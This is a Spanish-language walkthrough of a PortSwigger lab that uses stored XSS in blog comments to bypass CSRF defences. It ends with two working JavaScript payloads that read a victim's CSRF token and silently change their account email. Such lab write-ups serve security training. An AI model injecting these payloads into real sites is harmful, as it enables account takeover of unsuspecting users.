 ```yaml
---
title: XSS Lab 24
date: 2025-01-18 12:25:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - XSS
tags:
  - XSS
  - Exploiting XSS to bypass CSRF defenses
image:
  path: /assets/img/XSS-Lab-24/Portswigger.png
---
```


## Skills

- Exploiting XSS to bypass CSRF defenses
  
## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una vulnerabilidad de `XSS almacenado` en la función de `comentarios del blog`. Para `resolver` el laboratorio, debemos `explotar` la `vulnerabilidad` para `robar` un `token CSRF`, que luego podemos usar para `cambiar` la `dirección de correo electrónico` de alguien que vea los `comentarios` de la `publicación` del `blog`. Podemos `iniciar sesión` en nuestra propia `cuenta` utilizando las credenciales `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XSS-Lab-24/image_1.png)

Si pulsamos sobre `My account` nos podemos `loguear` con las credenciales `wiener:peter`

![](/assets/img/XSS-Lab-24/image_2.png)

Vemos que podemos `cambiar` nuestro `email`

![](/assets/img/XSS-Lab-24/image_3.png)

Si `capturamos` la `petición` con `Burpsuite` vemos que se envía el `email` y el `token CSRF`

![](/assets/img/XSS-Lab-24/image_4.png)

Si `inspeccionamos` el `código fuente` de la web también podemos ver el `token CSRF`

![](/assets/img/XSS-Lab-24/image_5.png)

Si pulsamos sobre `View post` vemos que tenemos una `sección` en la que podemos hacer `comentarios`

![](/assets/img/XSS-Lab-24/image_6.png)

Al hacer un `comentario` nos mete el `input` en unas `etiquetas <p></p>`

![](/assets/img/XSS-Lab-24/image_7.png)

Sin embargo, si intentamos `inyectar` algo entre `etiquetas <h1></h1>` vemos que nos `inyecta` las `etiquetas` con su `contenido` y deja las `<p></p>` vacías

![](/assets/img/XSS-Lab-24/image_8.png)

Si nos `abrimos` el `inspector` de `Chrome` y le echamos un vistazo a las `cookies` vemos que tienen las `flags HttpOnly y Secure`. `HttpOnly` nos `impide acceder a la cookie a través de JavaScript` y `Secure nos obliga a que la cookie solo se transmita a través de conexiones seguras HTTPS`

![](/assets/img/XSS-Lab-24/image_9.png)

Si vemos el `código fuente` observamos que al `publicar` un `comentario` también existe un `token CSRF`

![](/assets/img/XSS-Lab-24/image_10.png)

Para obtener el valor del `token CSRF` podemos hacerlo con `document.getElementsByName('csrf')[0].value`

![](/assets/img/XSS-Lab-24/image_11.png)

Aunque no podamos enviar información a nuestro servidor porque tiene las `flags HttpOnly y Secure` podemos usar el `XSS` para hacer que el `usuario víctima cambie su email o publique un mensaje con sus cookies`

```
<script>
    window.addEventListener('DOMContentLoaded', function() {
        var token = document.getElementsByName('csrf')[0].value;

        var data = new FormData();
        data.append('csrf', token);
        data.append('email', 'evil@hacker.net');

        fetch('/my-account/change-email', {
            method: 'POST',
            mode: 'no-cors',
            body: data
        });
    });
</script>
```

Otra `alternativa` sería usar `XMLHttpRequest`

```
<script>
    var req = new XMLHttpRequest();
    req.onload = handleResponse;
    req.open('get', '/my-account', true);
    req.send();

    function handleResponse() {
        var parser = new DOMParser();
        var doc = parser.parseFromString(this.responseText, 'text/html');
        var token = doc.querySelector('input[name="csrf"]').value;
        var changeReq = new XMLHttpRequest();
        changeReq.open('post', '/my-account/change-email', true);
        changeReq.send('csrf=' + token + '&email=test@test.com');
    };
</script>
```

